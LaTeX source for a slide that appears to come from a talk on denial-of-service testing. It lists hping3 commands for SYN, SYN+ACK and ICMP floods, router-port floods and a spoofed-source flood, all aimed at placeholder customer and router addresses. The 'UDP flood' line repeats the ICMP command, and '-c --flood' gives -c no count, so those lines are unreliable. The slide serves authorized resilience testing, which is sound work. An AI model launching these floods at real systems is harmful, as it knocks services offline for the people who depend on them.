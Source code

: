 \documentclass[20pt,landscape,a4paper,footrule]{foils}
\begin{document}
\begin{list1}
\item The minimal run contains at least these:
\begin{list2}
\item SYN flood: \verb+hping3 -q -c 1000000  -i u60 -S -p 80  $CUST_IP &+
\item SYN+ACK: \verb+hping3 -q -c 1000000  -i u60 -S -A -p 80  $CUST_IP &+
\item ICMP flood: \verb+hping3 -q -c --flood -1 $CUST_IP &+
\item UDP flood: \verb+hping3 -q -c --flood -1 $CUST_IP &+
\end{list2}
\item Vary the speed using the packet interval \verb+-i u60+ up/down
\item Use flooding with caution, runs max speeeeeeeeeeeed \smiley
\item TCP testing use a port which is allowed through the network, often 80/443
\item Focus on attacks which are hard to block, example TCP SYN must be allowed in
\item Also if you found devices like routers in front of environment\\
\verb+hping3 -q -c 1000000  -i u60 -S -p 22 $ROUTER_IP+\\
\verb+hping3 -q -c 1000000  -i u60 -S -p 179 $ROUTER_IP+
\end{list1}


Spoofed packets src=dst=target \smiley

Flooding with spoofed packet source, within customer range

\begin{alltt}\small

-a --spoof hostname
    Use this option in order to set a fake IP  source  address,  this
    option ensures that target will not gain your real address.
\end{alltt}

\verb+hping3 -q --flood -p 80 -S -a $CUST_IP $CUST_IP+

Preferably using a test-case you know fails, to see effect

Still amazed how often this works

BCP38 anyone!


Using the built-in option -f for hping
\end{document}
